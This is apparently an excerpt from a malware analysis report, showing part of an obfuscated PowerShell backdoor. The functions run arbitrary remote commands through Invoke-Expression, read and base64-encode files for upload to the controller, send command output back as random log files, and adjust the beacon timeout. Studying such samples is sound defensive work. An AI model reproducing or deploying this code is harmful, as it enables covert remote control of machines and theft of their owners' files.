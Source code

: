 <h6>The penultimate function block contains the rest of the backdoor functionalities.</h6>

```csharp
function reAd-FilE
{
  param(${PAth})
  ${bAsE64sTRing} =  ( geT-variaBLe JEs ).vAlUE::"TobAsE64sTrinG"(  $M5E::("ReadAllBytes").Invoke(${PATH}))
  ${fiLenAMe} = &("Split-Path") ${pATh} -leaf
  ${DAta} = ("download:")+ ${FiLEName} + ';' + ${Base64StRiNg}
  return ${daTA}
}
function GENErAte-lOg
{
 param(${dAtA})
 ${BAse64StRING} =   (gET-vArIABlE ("JeS") ).ValUe::"tObAsE64striNG"(${ENcOdINg}.("GetBytes").Invoke(${DATA}))
 ${NAmE} = -join ((48..57) + (97..122) | &("Get-Random") -Count 32 | &('%') {[char]${_}})
 ${dATA} = ("download:")+ ${NAMe} + (".log") + ';' + ${bAse64StRinG}
 return ${daTA}
}

function ExecuTe-stANDARtCOmMAND 
{
  param(${dECryptED}, ${iNteRNAlUsErId}, ${INTERnaLUserKeY})
    ${dECRYPTed} = ${dEcryPTEd}.("substring").Invoke(5)
    try{
        ${rES} = (&("Invoke-Expression") ${DECrypted}) | &("Out-String")
        if(${res}."LeNgtH") 
        {
            ${lOg} = &("Generate-Log") ${rEs}
            ${LOG_uPlOad} = &("Prepare-Request") ${LOg} ${INTeRNALUseRiD} ${INTERNalUSerKEy}
            &("Send-ToHost") ${LOG_uPLOAD}
        }
    } catch {}
}
function doWNlOAd-FILE 
{
  param(${decRypteD}, ${iNTERnaLUSErId}, ${InTerNalUSErKey})
    ${DEcRypTeD} = ${decRypTeD}.("substring").Invoke(9)
    try
    {
        ${fiLe} = &("Read-File") ${DecRyPTED}
        ${FILe_UplOAD} = &("Prepare-Request") ${File} ${IntERnaLUsErid} ${iNterNALuseRkey}
        &("Send-ToHost") ${FiLE_upLoAd}
		${Log} = &("Generate-Log") "file_uploaded"
        ${lOg_upLOAD} = &("Prepare-Request") ${LOg} ${iNTeRnAlUsERID} ${INterNALuSERkeY}
        &("Send-ToHost") ${log_uplOad}
    } catch {}
}
function chaNGe-timeOUt
{
  param(${DeCRYPTeD}, ${INtERNALusEriD}, ${INTeRnAlUSeRkEY})
    ${DECRypTED} = ${DecRYPTEd}.("substring").Invoke(14)
    ${rES} = ${sleEptIMeseC}
    if(${deCrYpTeD} -match "^[\d\.]+$") 
    {
	    ${loG} = &("{3}{2}{0}{1}"-f'a','te-Log','ener','G') "wait_time_changed"
        ${rEs} = ${deCrYpTEd}
    } 
    else { ${Log} = &("Generate-Log") "incorrect_value" }
    ${lOg_UploAD} = &("Prepare-Request") ${log} ${INTeRnAluSerid} ${INtERnalUSerKEy}
    &("Send-ToHost") ${log_uPlOAD}
    return ${RES}
```